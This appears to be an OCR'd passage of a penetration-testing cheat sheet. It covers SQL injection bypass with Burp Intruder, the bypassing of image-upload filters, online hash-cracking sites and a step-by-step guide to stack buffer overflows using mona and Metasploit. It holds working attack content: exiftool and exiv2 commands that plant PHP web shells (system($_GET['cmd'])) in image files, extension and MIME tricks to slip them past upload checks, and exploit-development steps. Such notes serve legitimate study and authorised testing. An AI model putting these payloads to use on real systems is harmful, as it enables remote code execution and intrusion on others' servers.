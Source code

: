 >Open Burp-suite
Make and intercept a request
Send to intruder
Cluster attack.
Paste in sqlibypass-list
    https://bobloblaw.gitbooks.io/security/content/sql-injections.html
Attack
Check for response length variation

#### Bypass img Upload

```bash
Change extension: .pHp3 or pHp3.jpg
Modify mimetype: Content-type: image/jpeg
Bypass getimagesize(): exiftool -Comment='<?php echo "<pre>"; system($_GET['cmd']); ?>' file.jpg
Add gif header: GIF89a;
All at the same time.
# inject PHP into img

exiv2 -c'A "<?php system($_REQUEST['cmd']);?>"!' shell.jpeg

exiftool -Comment='<?php echo "<pre>"; system($_GET['cmd']); ?>' shell.jpg

```

### Online crackers

https://hashkiller.co.uk/Cracker
https://www.cmd5.org/
https://www.onlinehashcrack.com/
https://gpuhash.me/
https://crackstation.net/
https://crack.sh/
https://hash.help/
https://passwordrecovery.io/
http://cracker.offensive-security.com/

# Vulnerability analysis

## Buffer Overflow
```bash
# BASIC GUIDE
1. Send "A"*1024
2. Replace "A" with /usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l LENGTH
3. When crash "!mona findmsp" (E$IP offset) or ""/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q TEXT" or "!mona pattern_offset eip"
4. Confirm the location with "B" and "C"
5. Check for badchars instead CCCC (ESP):
badchars = ("\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10" "\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20"
... )
with script _badchars.py and
"!mona compare -a esp -f C:\Users\IEUser\Desktop\badchar_test.bin"
 5.1 AWESOME WAY TO CHECK BADCHARS ( https://bulbsecurity.com/finding-bad-characters-with-immunity-debugger-and-mona-py/ ):
    a. !mona config -set workingfolder c:\logs\%p
    b. !mona bytearray -b "\x00\x0d"
    c. Copy from c:\logs\%p\bytearray.txt to python exploit and run again
    d. !mona compare -f C:\logs\%p\bytearray.bin -a 02F238D0 (ESP address)
    e. In " data", before unicode chars it shows badchars.
 6. Find JMP ESP with "!mona modules" or "!mona jmp -r esp" or "!mona jmp -r esp -cpb '\x00\x0a\x0d'" find one with security modules "FALSE"
6.1 Then, "!mona find -s "\xff\xe4" -m PROGRAM/DLL-FALSE"
```